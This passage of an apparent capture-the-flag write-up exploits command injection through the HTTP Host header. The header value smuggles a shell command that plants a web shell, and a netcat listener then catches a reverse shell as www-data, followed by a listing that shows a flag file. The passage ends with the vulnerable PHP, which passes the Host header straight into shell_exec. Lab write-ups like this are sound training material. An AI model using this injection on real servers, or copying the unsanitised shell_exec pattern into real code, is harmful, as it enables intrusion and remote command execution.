 ```php
GET /product/1 HTTP/1.1
Host: **10.8.31.73:1235;mv index.html shell.php;**
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: token=1f7f97c3a7aa4a75194768b58ad8a71d
dnt: 1
sec-gpc: 1
Connection: close
```

This worked as well. So we have a shell if we open

```php
http://10.10.20.75:81/shell.php
```

```php
❯ nc -vlp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.20.75 42956 received!
Linux c418851a6a30 5.4.0-1037-aws #39-Ubuntu SMP Thu Jan 14 02:56:06 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:29:26 up 3 min,  0 users,  load average: 1.95, 2.68, 1.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Got the shell and the flag

```php
www-data@c418851a6a30:~$ ls -la
total 32
drwxr-xr-x 1 www-data www-data 4096 Feb 22 16:38 .
drwxr-xr-x 1 root     root     4096 Feb 22 16:37 ..
drwxr-xr-x 2 root     root     4096 Feb 22 16:38 .ssh
-rw-r--r-- 1 root     root       38 Feb 22 16:38 container2_flag.txt
drwxr-xr-x 1 www-data www-data 4096 Feb 22 16:38 html
```

I could not escalate to root user. There is docker socket which could be used to gain root access but it needs root access.

## Exploitable code in the second approach

```php
<?php namespace Controller;                                                                                                                                                                                 [0/238]
                          
                                       
use Model\ExampleModel;                            
                               
class Website
{                        
    public static function home(){
        $url = 'http://'.$_SERVER["HTTP_HOST"].'/api/product';
        $json = json_decode(shell_exec('curl '.$url),true);
        if( gettype($json) == 'array' ){
            $data = array(
                'header'    =>  array(
```